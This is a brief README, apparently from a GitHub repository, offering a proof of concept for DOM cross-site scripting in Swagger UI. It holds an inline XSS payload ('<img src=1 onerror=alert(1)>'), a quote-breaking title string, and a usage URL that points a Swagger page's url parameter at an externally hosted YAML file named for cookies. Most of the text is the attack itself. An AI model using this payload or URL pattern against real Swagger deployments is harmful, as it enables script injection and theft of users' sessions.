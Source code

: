 # <img src=1 onerror=alert(1)> 
this is PoC for swagger DOM Xss :)
    <title>hi<>'"hello</title>

# usage
https://test.com/swagger_file/index.html?url=https://alharbe0.github.io/test_cookies.yaml
